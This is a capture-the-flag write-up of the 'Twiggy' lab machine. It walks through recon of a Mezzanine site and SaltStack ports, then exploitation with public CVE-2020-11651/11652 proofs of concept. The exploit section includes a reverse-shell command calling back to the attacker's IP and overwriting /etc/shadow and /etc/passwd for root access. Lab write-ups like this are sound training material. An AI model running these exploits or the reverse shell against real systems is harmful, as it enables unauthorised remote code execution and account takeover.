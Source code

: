 # Twiggy Writeup

Name: Twiggy
Date:  19/9/2023
Difficulty:  Easy
Goals: 
- Boxes from the list
Learnt:
- Python uses relative path not absolute! 
Beyond Root:
- SaltStack investigation

Another CTF with a amusing picture
![](ChicagaUSA.png)
## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Twiggy/Screenshots/ping.png)

![](nsklookupdns.png)

[Ports 4505-6 Are SaltStack Firewall](https://docs.saltproject.io/en/latest/topics/tutorials/firewall.html) - retrospectively this is weird that I at the time was very hesitant to RCE a firewall.
![](serachsploit-salt.png)

#### HTTP
Django with [Source for Mezzanine a CMS framework for Django](https://github.com/stephenmcd/mezzanine)

[No deafult password for mezzanine - admin : default ](https://www.virtuozzo.com/company/blog/how-to-get-mezzanine-cms-inside-jelastic-cloud/)

![](xxs-mezzanine.png)

The picture:
![](ChicagaUSA.png)
...has no interesting metadata
![](nometadata.png))

Site has anti-directory busting. Potential content discovery defences as Feroxbuster return a lot of http 500 status codes.

Search has three options
- Everything
- Blogs
- Pages

No upload button..
![](uploads.png)

Crawling the for vulnerable javascriptinterseting
![](gogospider.png)

Mapping out the root web page
![](congratz.png)

Before really looking into the proxy on 8000 reveals cherrypy 5.6
![](poc-cherrypyver.png)

Snyk is the goodest dog, but no CherryPy exploits
![](snykonnovulnscherrypy.png)

Contact does not actually do anything
![](nocontactworking.png)

Checked `/about/team`, `/about/history`, `/contact/lintersetingegals`
![](legals.png)
![](about.png)
![](history.png)
![](team.png)

Played around with all the http requests to test whether we get sqli, cmdi, file traversal or lfi for 
```
http://192.168.141.62/admin/login/?next=/admin/
```



![](adminpages.png)

Interesting Error message I checked that is in relation to the nginx conf file not settable through a http request
![](debugequaltruepng.png)


Without disclosing a hint there is a RCE, which is a hint without giving a hint.

I tried using python virtual environments to install and run nginxpwner for potential enumeration of if it was vulnerable.
```bash
git clone https://github.com/stark0de/nginxpwner.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```


## Exploit

Port 4505, 4506 [ZeroMQ](https://en.wikipedia.org/wiki/ZeroMQ) is a message library. [hackerone pre 2.1 is vulnerable to fuzzing attacks](https://hackerone.com/reports/477073). ZeroMQ ZMTP 2.0 has a [packet storm metasploit module](https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html) for the SaltStack. Annoyingly my biggest mistake in this is that ZeroMQ is not SaltStack and I trusted `nmap` to identify the service.


![](serachsploit-salt.png)

Metasploit will not work as the mezz user has `/bin/false` - in hindsight 
![](sadmsfpython.png)

Similarly with dealing with any exploits these days that are `python3` use virtual environments 
```bash
git clone https://github.com/dozernz/cve-2020-11651.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
# did not work
python3 CVE-2020-11651.py 192.168.242.62 master '/bin/bash -i >& /dev/tcp/192.168.45.191/4444 0>&1'
```
And for the other CVE PoCsinterseting
```bash
git clone https://github.com/Al1ex/CVE-2020-11652.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
python3 CVE-2020-11652.py -h # for help
```

Initial I fat figured the 2 and 8
![](nocve202011651.png)

Reran
![](anotherfatfiguringip.png)
But no response..![](legals.png)

With [CVE-2020-11652](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) we can read files
![](wecanreadfiles.png)
And the /etc/shadow file has weird permission so we could add records to the shadow file
![](andshadowfileread.png)

[/bin/false - service account without a shell](https://www.baeldung.com/linux/bin-true-bin-false-commands), No ssh keys to read and `/etc/ssh/sshd.config` 

![](sadhashcat.png)

Copied the `/etc/nginx/nginx.conf` file to remember the location. Give everything we cant actually run anything in the mezz user context, but given the lose file permission of the both passwd and shadow files we can just upload our own.

Learnt that python uses relative paths
![1080](relativepythonpaths.png)

Upload a new a shadow and passwd file to login
![1080](r00tedintheshadowfile.png)

And ssh in!
![](iamr00t.png)


## Beyond Root

ChatGPT says: *"SaltStack, now known as Salt Project, is an open-source infrastructure automation and configuration management tool. It is used to automate the deployment and management of infrastructure, including servers, network devices, and cloud resources. One of the features of SaltStack is the ability to manage firewalls, although it doesn't have a specific "SaltStack Firewall" component."* ...

[Salt / SaltStack](https://en.wikipedia.org/wiki/Salt_(software)) *is a Python-based, [open-source software](https://en.wikipedia.org/wiki/Open-source_software "Open-source software") for event-driven IT automation, remote task execution, and [configuration management](https://en.wikipedia.org/wiki/Configuration_management)* ...uses *the [ZeroMQ](https://en.wikipedia.org/wiki/ZeroMQ "ZeroMQ") messaging library to facilitate the high-speed requirements and built Salt using [ZeroMQ](https://docs.saltproject.io/en/latest/topics/transports/zeromq.html) for all networking layers.*

[Firewall port](https://docs.saltproject.io/en/latest/topics/tutorials/firewall.html)
TCP port 4506 is the master 
TCP port 4505 is the slave  

ZeroMQ 2.0 is vulnerable to a RCE.